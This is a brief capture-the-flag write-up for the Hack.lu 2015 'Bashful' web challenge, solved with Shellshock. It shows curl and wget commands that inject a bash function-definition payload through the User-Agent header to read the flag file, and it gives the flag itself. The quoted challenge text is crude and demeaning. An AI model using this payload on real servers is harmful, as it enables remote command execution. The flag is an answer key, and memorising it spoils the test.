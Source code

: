 #Hack.lu 2015 Bashful [web] 200

##Problem
"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.<br>
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.<br>
<br>
[Challenge](https://school.fluxfingers.net:1503/)<br>
[Source](https://school.fluxfingers.net/static/chals/bashful_a77db9359a404ec7443d6455152e54b6.tar.bz2)

##Solution
It's a classic **Shellshock** problem, since the website uses bash to deal with all the inputs and outputs.<br>
[Shellshock Reference](https://blog.cloudflare.com/inside-shellshock/)

So we can use curl or wget to send requests via user-agent.<br>
<pre>
<code>
$ curl -H "User-Agent: (){ test;} /bin/cat flag" https://school.fluxfingers.net:1503/
$ wget -U "() { test;}; /bin/cat flag" https://school.fluxfingers.net:1503
</code>
</pre>
And the flag is: **flag{as_classic_as_it_could_be}**
